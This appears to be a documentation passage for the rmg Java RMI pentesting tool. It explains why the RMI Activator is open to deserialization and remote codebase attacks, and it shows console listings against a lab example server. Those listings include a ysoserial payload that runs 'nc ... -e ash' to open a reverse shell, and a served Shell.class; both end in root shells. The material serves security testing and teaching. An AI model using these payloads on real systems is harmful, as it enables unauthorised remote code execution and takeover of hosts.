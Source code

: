 The ``ActivationID`` can now be used to create *RemoteObjects* on demand. When a client dispatches a *RMI call*, it first tries to
dispatch it directly using the *remote reference* for the corresponding *Remote Object*. When this call fails, it sends an *activate
request* to the ``Activator``, containing the ``ActivationID`` it obtained previously. The ``Activator`` can now create the object
and return the new *remote reference* back to the client (as already mentioned, this explanation is probably not fully correct and
misses many details, but it is sufficient for our purpose).

**TL;DR** - The ``Activator`` is just another well known *RemoteObject* with a fixed ``ObjID`` and known *remote methods*. The reason why it
is interesting from an offensive perspective is, because it did never profit from *JEP290* and still uses no deserialization filters.
As it's only *remote method* ``activate`` takes a non primitive argument, it is a prime target for deserialization attacks.
Since version ``v3.1`` the *rmg-example-server* runs an ``Activator`` remote object on the ``9010`` registry port.
The following listing shows an example *deserialization attack*:

```console
[qtc@kali ~]$ rmg 172.17.0.2 9010 act CommonsCollections6 'nc 172.17.0.1 4444 -e ash'
[+] Creating ysoserial payload... done.
[+] 
[+] Attempting deserialization attack on Activation endpoint...
[+] 
[+] 	Caught IllegalArgumentException during deserialization attack.
[+] 	Deserialization attack was probably successful :)

[qtc@kali ~]$ nc -vlp 4444
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 172.17.0.2.
Ncat: Connection from 172.17.0.2:46499.
id
uid=0(root) gid=0(root) groups=0(root)
```

Apart from being vulnerable to *deserialization attacks*, the ``Activator`` can also be vulnerable to remote class loading attacks.
For this attack to work, the ``ActivationSystem`` needs to run with ``useCodebaseOnly=false`` and a security policy that allows
the requested operation. The default implementation for the *activation system* (``rmid``) uses the same *SecurityManager* as the
*RMI registry*. Therefore, pulling classes from remote is always allowed.

```console
[qtc@kali ~]$ rmg 172.17.0.2 9010 codebase Shell http://172.17.0.1:8000 --signature act
[+] Attempting codebase attack on Activator endpoint...
[+] Using class Shell with codebase http://172.17.0.1:8000/ during activate call.

[qtc@kali www]$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
172.17.0.2 - - [27/Mar/2021 06:31:28] "GET /Shell.class HTTP/1.1" 200 -

[qtc@kali ~]$ nc -vlp 4444
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 172.17.0.2.
Ncat: Connection from 172.17.0.2:36110.
id
uid=0(root) gid=0(root) groups=0(root)
```
